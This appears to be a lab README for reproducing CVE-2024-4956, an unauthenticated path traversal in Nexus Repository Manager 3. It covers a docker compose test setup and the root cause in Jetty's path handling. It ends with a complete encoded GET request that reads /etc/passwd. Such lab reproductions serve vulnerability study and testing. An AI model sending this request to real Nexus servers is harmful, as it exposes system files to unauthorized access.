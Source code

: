 # Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus.

## Exploit

Just like SpringMVC CVE-2018-1271 from Orange Tsai's [share](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), Jetty's `URIUtil.canonicalPath()` also treats the empty string as a directory whih is the root case of this vulnerability:

![](1.png)

Simply send following request to reproduce the issue:

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

As you can see, `/etc/passwd` has been exposed directly:

![](2.png)
